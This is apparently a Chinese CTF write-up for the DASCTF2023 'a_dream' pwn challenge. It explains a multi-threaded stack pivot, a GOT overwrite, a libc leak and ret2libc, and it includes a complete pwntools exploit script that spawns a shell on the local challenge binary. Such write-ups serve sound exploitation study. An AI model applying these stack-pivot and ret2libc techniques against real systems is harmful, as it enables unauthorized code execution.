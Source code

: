 ```yaml
---
title: 「PWN」【DASCTF2023 二进制专场 六月】Writeup WP 复现

tags: ["CTF", "Pwn", "writeup", "wp"]

authors: [nova]
---
```


这次 PWN 赛题挺高质量的，但是题量太大了加上准备考试所以没咋做，浅浅复现一下

<!--truncate-->

## a_dream

多线程的栈迁移题目。

要点：

- 主线程在子线程创建后开的沙箱不影响子线程
- 子线程的栈由 mmap 开辟，与 libc 偏移相同
- 子线程与父线程使用同一个 GOT / PLT 表

攻击思路：

1. 栈迁移到 bss 上，将 write 的 GOT 表改为父线程里的 read
2. 利用 puts 泄露 libc，进而获得子线程栈地址
3. ret2libc

注意的点：

- 修改完 write 的 GOT 表之后，其实也只能溢出 0x10，但是此时 `rbp - 0x10` 的地方正好是 read 函数 ret 的地方，因此我们可以做到 0x20 字节的控制，正好够写 `pop rdi + got['puts'] + plt['puts'] + magic_read`
- 此时 magic_read 仍然只能溢出 0x10，但是我们已经由 libc 地址获得了子线程的栈地址，所以往栈的高位迁移即可。

疑惑的点：

- ~~修改完 write 的 GOT 表后，由于每 1s 都会运行一次 write，也就是都在等待 stdin 的输入，此时不知道 pwndbg 的问题还是因为一直在被中断，反正只能断在那，不能 si/n/c，都会炸掉，因此调试起来非常复杂，甚至于后面是靠不断修改断点位置来进行单步（笑~~

  设置 gdb `set scheduler-locking step`即可

![image-20230623124315352](https://oss.nova.gal/img/image-20230623124315352.png)

exp（不适用于远程，本地 2.35 的 libc）

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-

from pwn import *

context(arch = 'amd64', os = 'linux')
context.log_level = 'debug'
context.terminal='wt.exe bash -c'.split(' ')

sh = process("./pwn_9")
elf = ELF("./pwn_9")
# libc = ELF("./libc.so.6")

def dbg(cmd: str = '', pause_time: int = 3) -> None:
    gdb.attach(sh, cmd)
    if pause_time == 0:
        pause()
    else:
        pause(pause_time)

bss = elf.bss() + 0x100
magic_read = 0x4013AE
pop_rdi_ret = 0x401483
pop_rsi_r15_ret = 0x401481
leave_ret = 0x4013C5

success('bss: ' + hex(bss))
payload = b'a'*0x40 + p64(bss+0x40) + p64(magic_read)
sh.send(payload)

payload = p64(pop_rsi_r15_ret) + p64(elf.got['write']) + p64(0) + p64(elf.plt['read'])
payload += p64(pop_rdi_ret) + p64(1000) + p64(elf.plt['sleep'])
payload = payload.ljust(0x40, b'\x00') + p64(bss-0x8) + p64(leave_ret)
sh.send(payload)
# dbg(f't 2\nb *0x4013c5')
payload = p64(magic_read)
sleep(0.2)
sh.send(payload)
sleep(0.2)
sh.send(b'a'*0x30 + p64(pop_rdi_ret) + p64(elf.got['puts']) + p64(elf.plt['puts']) + p64(magic_read))

libc = u64(sh.recvuntil(b'\x7f')[-6:].ljust(8, b'\x00')) - 0x80ed0
str_bin_sh = libc + 0x1d8698
system_addr = libc + 0x50d60
stack = libc - 0x11b0 - 0x40
success('libc: ' + hex(libc))

payload = p64(pop_rdi_ret) + p64(str_bin_sh) + p64(system_addr)
payload = payload.ljust(0x40, b'\x00') + p64(stack - 8) + p64(leave_ret)
sh.send(payload)
sh.interactive()
```
